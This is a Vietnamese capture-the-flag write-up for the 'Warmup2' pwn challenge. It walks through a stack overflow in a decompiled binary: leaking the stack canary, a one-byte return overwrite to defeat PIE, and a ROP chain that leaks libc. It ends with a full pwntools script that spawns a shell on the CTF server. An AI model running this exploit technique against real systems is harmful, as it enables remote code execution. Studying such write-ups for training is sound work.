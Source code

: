 # Warmup2 (Pwn)

<figure><img src="../../.gitbook/assets/2022-08-30-214516_484x592_scrot.png" alt=""><figcaption><p>Challange</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/2022-08-30-221249_267x162_scrot.png" alt=""><figcaption><p>Checksec</p></figcaption></figure>

Decompile bằng Ghidra

```c
undefined8 main(void)

{
  alarm(0x3c);
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  vuln();
  return 0;
}
void vuln(void)

{
  long in_FS_OFFSET;
  char input [264];
  long stack_canary;
  
  stack_canary = *(long *)(in_FS_OFFSET + 0x28);
  puts("What\'s your name?");
  read(0,input,4919);
  printf("Hello %s!\n",input);
  puts("How old are you?");
  read(0,input,4919);
  printf("Wow, I\'m %s too!\n",input);
  if (stack_canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Bài này có chứa stack canary, nên phải leak nó trước khi muốn ghi đè địa chỉ trả về.

Hãy để ý đến hàm read, hàm này không chuyển byte `\n` thành byte null. Chuyện gì sẽ xảy ra nếu lấp đầy biến input với 264 byte? Vì không có null byte nên hàm printf sẽ hiểu string chưa kết thúc và tiếp tục in dữ liệu sau nó ra -> leak stack canary.

Hãy thử nhập 263 chữ A ( tất nhiên byte thứ 264 sẽ là `\n` )

<figure><img src="../../.gitbook/assets/2022-08-30-220430_1830x229_scrot.png" alt=""><figcaption><p>WTF</p></figcaption></figure>

WTF, sao lại chả leak được gì?

Khi mình kiểm tra stack canary hóa ra byte đầu tiên của nó luôn là null

<figure><img src="../../.gitbook/assets/2022-08-30-220643_800x369_scrot.png" alt=""><figcaption></figcaption></figure>

Vậy nên ta sẽ ghi đè luôn byte đầu tiên của stack canary là `\n`&#x20;

<figure><img src="../../.gitbook/assets/2022-08-30-220929_1841x351_scrot.png" alt=""><figcaption><p>Đúng như mong đợi</p></figcaption></figure>

Viết script để xuất leak steak canary

```python
p.recv()
z(1)#slepp
p.sendline(b"A"*264)
z(1)
p.recvuntil(b"A"*264+b"\n")
z(1)
leak=p.recvuntil(b"\n")[0:7][::-1]+b"\x00"
log.info(f"Leak canary: {leak.hex()}")
canary=int(leak.hex(),16)#leak stack canary
```

Giờ có được canary rồi, ghi đè saved rip để đi đến đâu? Binary này bật PIE nên ta cần leak thêm địa chỉ của hàm nào đó trong binary. Mình nghĩ khả dĩ nhất là địa chỉ trả về của vuln vì nó cũng ở trong stack (ngay sau canary).

Nhưng giờ chỉ còn thực thi thêm một lần read. Không thể thay đổi canary nhưng canary lại chứa null byte -> không thể leak địa chỉ trả về.

Giờ chỉ còn cách quay lại gọi hàm vuln một lần nữa. Mình cho trả về lúc call hàm vuln trong hàm main thêm một lần nữa vì đơn giản chỉ cần thay đổi 1 byte ( `9d` -> `dd` ).

<figure><img src="../../.gitbook/assets/2022-08-30-222106_660x332_scrot.png" alt=""><figcaption></figcaption></figure>

Script để leak

```python
padding=b"A"*264+p64(canary)+b"B"*8

p.send(padding+b"\xdd")#ret2 call vuln
z(1)
p.recvuntil(b"A"*264)
z(1)
p.send(b"A"*(264+8))
z(1)
p.recvuntil(b"A"*(264+8))
z(1)
p.recvuntil(b"B"*8)
z(1)
leak1=p.recvuntil(b'\n')[0:6][::-1].hex()#leak main
log.info(f"Leak *main+68: 0x{leak1}")

main=int(leak1,16)-68
```

<figure><img src="../../.gitbook/assets/2022-08-30-223235_1819x330_scrot.png" alt=""><figcaption><p>It works!</p></figcaption></figure>

Có được địa chỉ main rồi giờ mình sẽ gọi puts\_plt(... got) để leak libc.

```python
main=int(leak1,16)-68
pop_rdi=main+181
puts_got  =main+e.got["puts"]  -e.sym["main"]
printf_got=main+e.got["printf"]-e.sym["main"]
read_got  =main+e.got["read"]  -e.sym["main"]
puts_plt  =main+e.plt["puts"]  -e.sym["main"]
vuln      =main+e.sym["vuln"]  -e.sym["main"]
p.sendline(padding+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(pop_rdi)+p64(printf_got)+p64(puts_plt)+p64(pop_rdi)+p64(read_got)+p64(puts_plt)+p64(vuln))
z(1)
p.recvuntil(b"too!\n")
z(1)
leak_puts=p.recvuntil(b"\n")[0:6][::-1].hex()
z(1)
log.info(f"puts: 0x{leak_puts}")
leak_printf=p.recvuntil(b"\n")[0:6][::-1].hex()
z(1)
log.info(f"printf: 0x{leak_printf}")
leak_read=p.recvuntil(b"\n")[0:6][::-1].hex()
z(1)
log.info(f"read: 0x{leak_read}")
```

<figure><img src="../../.gitbook/assets/2022-08-30-223729_720x247_scrot.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2022-08-30-223817_1279x434_scrot.png" alt=""><figcaption></figcaption></figure>

Mình sẽ thử với libc6\_2.31-0ubuntu9.9\_amd64.so trước.

Full script

```python
#!/usr/bin/python
from pwn import *
from time import sleep as z
e=ELF("./chal")
libc=ELF("./libc6_2.31-0ubuntu9.9_amd64.so")
#context.log_level='debug'
p=remote("warmup2.ctf.maplebacon.org",1337)
p.recv()
z(1)
p.sendline(b"A"*264)
z(1)
p.recvuntil(b"A"*264+b"\n")
z(1)
leak=p.recvuntil(b"\n")[0:7][::-1]+b"\x00"
log.info(f"Leak canary: {leak.hex()}")
canary=int(leak.hex(),16)#leak stack canary
padding=b"A"*264+p64(canary)+b"B"*8

p.send(padding+b"\xdd")#ret2 call vuln
z(1)
p.recvuntil(b"A"*264)
z(1)
p.send(b"A"*(264+8))
z(1)
p.recvuntil(b"A"*(264+8))
z(1)
p.recvuntil(b"B"*8)
z(1)
leak1=p.recvuntil(b'\n')[0:6][::-1].hex()#leak main
log.info(f"Leak *main+68: 0x{leak1}")

main=int(leak1,16)-68
pop_rdi=main+181
puts_got  =main+e.got["puts"]  -e.sym["main"]
printf_got=main+e.got["printf"]-e.sym["main"]
read_got  =main+e.got["read"]  -e.sym["main"]
puts_plt  =main+e.plt["puts"]  -e.sym["main"]
vuln      =main+e.sym["vuln"]  -e.sym["main"]
p.sendline(padding+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(pop_rdi)+p64(printf_got)+p64(puts_plt)+p64(pop_rdi)+p64(read_got)+p64(puts_plt)+p64(vuln))
z(1)
p.recvuntil(b"too!\n")
z(1)
leak_puts=p.recvuntil(b"\n")[0:6][::-1].hex()
z(1)
log.info(f"puts: 0x{leak_puts}")
leak_printf=p.recvuntil(b"\n")[0:6][::-1].hex()
z(1)
log.info(f"printf: 0x{leak_printf}")
leak_read=p.recvuntil(b"\n")[0:6][::-1].hex()
z(1)
log.info(f"read: 0x{leak_read}")
system=int(leak_puts,16)+libc.sym["system"]-libc.sym["puts"]
binsh =int(leak_puts,16)+next(libc.search(b"/bin/sh"))-libc.sym["puts"]
p.sendline(b"1")
z(1)
p.sendline(padding+p64(pop_rdi)+p64(binsh)+p64(vuln+180)+p64(system))

p.interactive()
```

